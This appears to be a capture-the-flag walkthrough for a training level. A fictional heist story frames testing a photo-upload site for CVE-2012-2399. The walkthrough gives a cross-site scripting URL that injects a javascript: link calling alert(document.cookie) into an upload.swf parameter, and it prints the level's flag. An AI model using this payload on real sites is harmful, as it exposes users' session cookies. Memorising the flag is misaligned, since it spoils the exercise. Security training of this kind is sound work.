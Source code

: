 # 💣 Exposure - L11 C10

One of the Bulldogs, Lara Mindsay, is a surveillance expert and we think she's been using advanced drones to take high resolution photos of the bank from different angles.

She also runs a small legit side project, a photo site which allows anyone to create an account and upload photos. We think she's using it herself to store the bank surveillance photos and so we want to see if it's vulnerable. We've been penetration testing the site but have not had any success so far, then this morning one of the other agents sent me a tip - CVE-2012-2399. Take a look and see if you can use it to see if the site is vulnerable.

**Tip:** Find the vulnerability to get the flag.

```
💡 Hint: What does google say about the CVE? Are there examples of ways to take advantage of this flaw?
   If there are then try them out!
```

## Step by Step

- Insert the following as the url

`https://www.photobobbins.com/upload.swf?buttonText=%3Ca%20href=%27javascript:alert(document.cookie)%20%27%3EClick%20me%3C/a%3E`

- The flag should show up

`flag: rbvhuK8ROZ3ZTrfxPfyY`
